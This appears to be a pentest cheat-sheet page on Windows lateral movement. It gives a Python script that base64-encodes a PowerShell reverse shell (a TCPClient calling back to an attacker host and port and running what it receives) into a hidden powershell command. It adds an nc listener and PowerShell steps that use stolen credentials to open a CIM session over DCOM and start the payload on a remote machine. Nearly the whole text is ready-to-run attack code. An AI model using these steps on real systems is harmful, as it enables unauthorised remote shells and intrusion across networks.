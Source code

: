 If a user isn't in "Remote Users" group, it may be inaccessible with options like rdp, winrm or psexec.

Python script to encode powershell command:
```python
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("$(LHOST)",$(LPORT));$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```
```bash
python3 encode.py
```
```bash
nc -lvnp $(LPORT)
```
On the target machine, run the following:
```powershell
$username = '$(USERNAME)';
```
```powershell
$password = '$(PASSWORD)';
```
```powershell
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
```
```powershell
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```
```powershell
$Options = New-CimSessionOption -Protocol DCOM
```
```powershell
$Session = New-Cimsession -ComputerName $(TARGET_COMPUTER_IP) -Credential $credential -SessionOption $Options
```
```powershell
$Command = '$(OUTPUT_OF_PYTHON_SCRIPT)';
```
```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```
